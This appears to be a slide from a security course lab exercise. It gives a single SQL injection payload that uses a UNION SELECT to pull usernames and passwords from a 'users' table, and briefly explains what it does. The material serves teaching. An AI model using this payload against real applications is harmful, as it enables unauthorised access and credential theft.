

# Lab 10.1.19
Run this command:
1' OR 1=1 UNION SELECT user, password FROM users #
What do we see?
It’s an SQL injection exploit. The purpose is to retrieve usernames and passwords from a database table called “users”